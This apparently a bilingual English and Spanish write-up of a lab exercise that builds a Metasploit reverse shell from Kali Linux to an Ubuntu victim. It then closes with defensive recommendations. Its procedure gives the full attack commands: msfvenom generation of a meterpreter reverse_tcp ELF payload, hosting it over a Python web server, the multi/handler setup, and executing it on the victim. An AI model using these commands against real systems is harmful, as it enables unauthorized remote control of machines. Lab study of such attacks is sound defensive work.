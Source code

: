 
# Metasploit Reverse Shell Lab

## Objective

Explore the behavior of a reverse shell in Linux systems using Metasploit and verify the establishment of a remote session via msfconsole.

## Tools Used

- Kali Linux (attacker)
- Ubuntu Server (victim)
- msfvenom – payload generation
- msfconsole – handler setup
- tcpdump or netcat – traffic monitoring

## Procedure

1. Payload generation:

   A reverse TCP payload was generated in ELF format using the following command:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

2. Payload transfer to the victim:

   The payload was hosted on the attacker's machine using:

   python3 -m http.server

   On the victim, it was downloaded using wget or curl.

3. Metasploit handler setup:

   In msfconsole, the following configuration was used:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

4. Execution of the payload:

   On the victim machine:

   chmod +x shell.elf  
   ./shell.elf

5. Successful connection:

   A meterpreter session was established. Commands such as sysinfo, getuid, and shell were executed to demonstrate access.

## Results

- The reverse shell connection was successfully established.
- Full control of the victim machine was obtained.
- Traffic was observable and unencrypted via tcpdump.

## Conclusions

- Reverse shells represent a high-risk vector when execution controls are not enforced.
- msfvenom can produce payloads that are not detected by signature-based AV.
- Properly configured tools like tcpdump or Snort can help detect unusual outgoing connections.

## Recommendations

- Use execution control mechanisms like AppArmor or SELinux.
- Monitor non-standard outbound connections.
- Block known ports used by payloads (e.g., 4444).
- Deploy IDS solutions to detect shell patterns and unauthorized access attempts.

# Laboratorio de Conexión Inversa con Metasploit

## Objetivo

Explorar el comportamiento de una conexión inversa en sistemas Linux utilizando Metasploit y verificar el establecimiento de una sesión remota mediante msfconsole.

## Herramientas Utilizadas

- Kali Linux (atacante)
- Ubuntu Server (víctima)
- msfvenom – generación del payload
- msfconsole – configuración del handler
- tcpdump o netcat – monitoreo del tráfico

## Procedimiento

1. Generación del payload:

   Se generó un payload TCP inverso en formato ELF con el siguiente comando:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

2. Transferencia del payload a la víctima:

   El payload fue alojado en la máquina atacante con:

   python3 -m http.server

   En la víctima se descargó usando wget o curl.

3. Configuración del handler en Metasploit:

   En msfconsole se configuró lo siguiente:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

4. Ejecución del payload:

   En la máquina víctima:

   chmod +x shell.elf  
   ./shell.elf

5. Conexión exitosa:

   Se estableció una sesión meterpreter. Se ejecutaron comandos como sysinfo, getuid y shell para verificar el acceso.

## Resultados

- La conexión inversa fue establecida exitosamente.
- Se obtuvo control completo de la máquina víctima.
- El tráfico fue visible y no cifrado usando tcpdump.

## Conclusiones

- Las conexiones inversas representan un vector de alto riesgo si no se aplican controles de ejecución.
- msfvenom puede generar payloads que no son detectados por antivirus basados en firmas.
- Herramientas como tcpdump o Snort, correctamente configuradas, pueden detectar conexiones salientes sospechosas.

## Recomendaciones

- Utilizar mecanismos de control de ejecución como AppArmor o SELinux.
- Monitorear conexiones salientes no estándar.
- Bloquear puertos comúnmente utilizados por payloads (por ejemplo, 4444).
- Implementar soluciones IDS para detectar patrones de shell y accesos no autorizados.
